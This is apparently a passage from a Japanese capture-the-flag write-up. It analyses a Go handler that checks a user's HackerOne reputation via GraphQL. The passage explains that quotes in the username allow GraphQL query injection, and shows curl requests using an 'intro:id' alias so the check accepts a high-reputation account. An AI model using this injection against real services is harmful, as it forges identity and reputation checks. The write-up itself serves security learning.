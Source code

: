 ```go:user.go
			}
		}
	}

	var rd respData

	err = json.NewDecoder(resp.Body).Decode(&rd)

	if err != nil {
		api.HandleError(fmt.Errorf("error parsing h1 response: %v", err), w)
		return
	}

	if rd.Data.User.Reputation == 0 || rd.Data.User.Intro == "" {
		api.HandleError(fmt.Errorf("bad response from h1"), w)
		return
	}

	if rd.Data.User.Intro != *req.Validator {
		api.HandleError(fmt.Errorf("incorrect validator"), w)
		return
	}

	user.Reputation = uint64(rd.Data.User.Reputation)
	s.db.Impl.Save(&user)
}
<SNIP>
```

hackerone.comのGraphQL APIを実行して、Reputationを取得しているっぽい。  
ただし、Reputationが100000以上のユーザを指定すれば良さそうだが、不正利用防止のため、introの値を特定の文字数（30～40文字）にする必要がある。

Hackeroneのランキングを見ると、Reputationが100000以上のユーザは2人いるが、introの値が両社とも空のため、そのままだと条件に会わない。
ランキング：<https://hackerone.com/leaderboard/all_time_reputation>

```sh
$ curl -X 'POST' -H 'Content-Type: application/json' --data-binary '{"query":"query {user(username: \"todayisnew\") {id username name intro reputation}}"}' https://hackerone.com/graphql
{"data":{"user":{"id":"Z2lkOi8vaGFja2Vyb25lL1VzZXIvMTg0MjY=","username":"todayisnew","name":"Eric","intro":"","reputation":182399}}}
```

仕方がないので、もう一度ソースを確認すると、送信しているGraphQLのクエリ生成に問題があるため、usernameに`"`を含めることで任意のクエリを送信できそう。  
後は、Goの構造体に合うようなレスポンスが変えるようなクエリを送信できれば良さそう。

これは、GraphQLのエイリアス機能を使うことで何とかなりそう。  
しかも丁度良く、idの文字数が36文字だった。  
試しに、hackerone.comのGraphQL APIに以下のクエリを送ってみると、introとreputationがいい感じに帰ってきた。

```json
{"query":"query {user(username: \"todayisnew\") {intro:id reputation}}"}
```

```sh
$ curl -X 'POST' -H 'Content-Type: application/json' --data-binary '{"query":"query {user(username: \"todayisnew\") {intro:id reputation}}"}' https://hackerone.com/graphql
{"data":{"user":{"intro":"Z2lkOi8vaGFja2Vyb25lL1VzZXIvMTg0MjY=","reputation":182399}}}
```
